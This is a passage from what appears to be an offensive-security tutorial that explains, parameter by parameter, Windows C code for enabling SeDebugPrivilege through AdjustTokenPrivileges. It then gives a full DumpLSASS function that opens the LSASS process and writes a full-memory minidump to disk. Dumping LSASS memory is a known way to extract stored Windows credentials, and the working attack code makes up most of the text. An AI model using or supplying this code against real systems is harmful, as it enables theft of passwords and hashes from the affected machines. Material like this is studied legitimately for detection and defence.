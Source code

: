 1. `lpSystemName`: `NULL` means the local system.
2. `lpName`: `SE_DEBUG_NAME`, typically defined as `"SeDebugPrivilege"`. This is the privilege allowing debug-level access to other processes.
3. `&luid`: out parameter. Receives the LUID for SeDebugPrivilege.

**. Prepare TOKEN\_PRIVILEGES**

```
tp.PrivilegeCount= 1; 
tp.Privileges[0].Luid= luid; 
tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
```

- `tp.PrivilegeCount = 1;`We intend to adjust one privilege.
- `tp.Privileges[0].Luid = luid;` : Set the LUID obtained from `LookupPrivilegeValue` for SeDebugPrivilege.
- `tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;` : This flag enables the privilege. Other flags include disabled, removed, etc.

**. AdjustTokenPrivileges**

```
AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(tp), NULL, NULL);
```

1. `TokenHandle`: `hToken`, the handle to the token we opened.
2. `DisableAllPrivileges`: `FALSE`, meaning we do *not* disable all, but adjust only as specified in `tp`.
3. `NewState`: `&tp`, pointer to the `TOKEN_PRIVILEGES` structure specifying which privileges to enable.
4. `BufferLength`: `sizeof(tp)`, size of the `TOKEN_PRIVILEGES` buffer.
5. `PreviousState`: `NULL`, we do not request the previous state.
6. `ReturnLength`: `NULL`, not used here.

```
BOOL DumpLSASS(DWORD pid, const char *dumpPath) {
 // Open LSASS with query/read
 HANDLE hProcess = OpenProcess(PROCESS_QUERY_INFORMATION | PROCESS_VM_READ,
 FALSE, pid);
 if (!hProcess) {
 fprintf(stderr, "[-] OpenProcess Failed: %lu\n", GetLastError());
 return FALSE;
 }
 // Create or overwrite the dumpPath file
 HANDLE hFile = CreateFileA(dumpPath,GENERIC_WRITE,0,NULL,CREATE_ALWAYS,FILE_ATTRIBUTE_NORMAL,NULL);
 if (hFile == INVALID_HANDLE_VALUE) {
 fprintf(stderr, "[-] CreateFile Failed: %lu\n", GetLastError());
 CloseHandle(hProcess);
 return FALSE;
 }
 // Write full-memory minidump
 BOOL dumped = MiniDumpWriteDump(hProcess,pid,hFile,MiniDumpWithFullMemory,NULL,NULL,NULL);
 if (!dumped) {
 fprintf(stderr, "[-] MiniDumpWriteDump Failed: %lu\n", GetLastError());
 }
 CloseHandle(hFile);
 CloseHandle(hProcess);
 return dumped;
}
```
